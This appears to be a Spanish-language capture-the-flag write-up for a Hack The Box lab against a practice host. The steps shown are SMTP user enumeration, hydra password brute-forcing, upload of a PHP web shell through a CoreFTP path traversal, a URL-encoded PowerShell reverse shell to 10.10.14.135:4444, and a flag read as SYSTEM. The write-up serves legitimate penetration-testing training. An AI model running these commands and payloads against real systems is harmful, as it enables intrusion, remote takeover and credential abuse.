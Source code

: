 # Attacking common Services - Easy

## Enunciado

We were commissioned by the company Inlanefreight to conduct a penetration test against three different hosts to check the servers' configuration and security. We were informed that a flag had been placed somewhere on each server to prove successful access. These flags have the following format:

- HTB{...}

Our task is to review the security of each of the three servers and present it to the customer. According to our information, the first server is a server that manages emails, customers, and their files.

## Solución

- Encontramos los siguientes puertos abiertos:

	```plaintext
	21/tcp   open  ftp
	25/tcp   open  smtp
	80/tcp   open  http
	443/tcp  open  https
	587/tcp  open  submission
	3306/tcp open  mysql
	3389/tcp open  ms-wbt-server
	```

- Ponemos inlanefreight.htb en `hosts`

- Probamos a encontrar usuarios utilizando `smtp-user-enum`

	```bash
	smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t $target
	```

	Encontrando como usuario válido `fiona@inlanefreight.htb`

- A continuación hacemos fuerza bruta 

	```bash
	hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt smtp://$target	
	```

	Encontrando como password válida `987654321`

- Nos conectamos por ftp con las credenciales obtenidas

	```bash
	ftp fiona@$target
	#ls no funciona y pone que hay que pasar a binary mode para descargar archivos
	binary
	passive
	# Se queda colgado
	# Ctrl + C
	passive
	get docs.txt
	get WebServersInfo.txt
	```

- Encontramos la siguiente información 
	- `docs.txt`:

		```textplain
		I'm testing the FTP using HTTPS, everything looks good.   
		``` 

	- `WebServersInfo.txt`

		```textplain
		CoreFTP:
		Directory C:\CoreFTP
		Ports: 21 & 443
		Test Command: curl -k -H "Host: localhost" --basic -u <username>:<password> https://localhost/docs.txt

		Apache
		Directory "C:\xampp\htdocs\"
		Ports: 80 & 4443
		Test Command: curl http://localhost/test.php
		```

- Dado que es un coreFTP, podemos subir código de forma arbitraria, por lo que tratamos de subir código a `C:\xampp\htdocs\`

- Creamos un archivo php llamado `simplephp.php` con el siguiente contenido:

	```php
	<?php system($_GET['cmd']);?>
	```

	y lo subimos del siguiente modo

	```bash
	curl -k -X PUT -H "Host: $target" --basic -u fiona:987654321 --data-binary "@simplephp.php" --path-as-is "https://$target/../../../../../../xampp/htdocs/rev.php"
	```

	(en este caso particular funcionaría sin envíar la cabecera)

- Después de subir el archivo comprobamos que funciona escribiendo lo siguiente: 

	```bash
	curl http://$target/rev.php?cmd=whoami
	```

	Comprobando que somo `nt authority\system`

- Creamos un archivo `revshell` con el siguiente contenido (tomado de revshells):

	```textplain
	powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.135%27%2C4444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
	```

- Nos ponemos en escucha por el puerto 4444 y tras ejecutar el siguiente comando: 

	```bash
	curl http://$target/rev.php?cmd=$(cat revshell) 
	```

	comprobamos que tenemos conexión

- Con esto ya podemos leer el contenido de la flag:

	```powershell
	PS C:\Users\Administrator\Desktop> type flag.txt
	HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}
	```


---

- Comprobamos que con estas credenciales podemos conectarnos tambíén a mysql

	```bash
	mysql -u fiona -p987654321 -h $target
	```






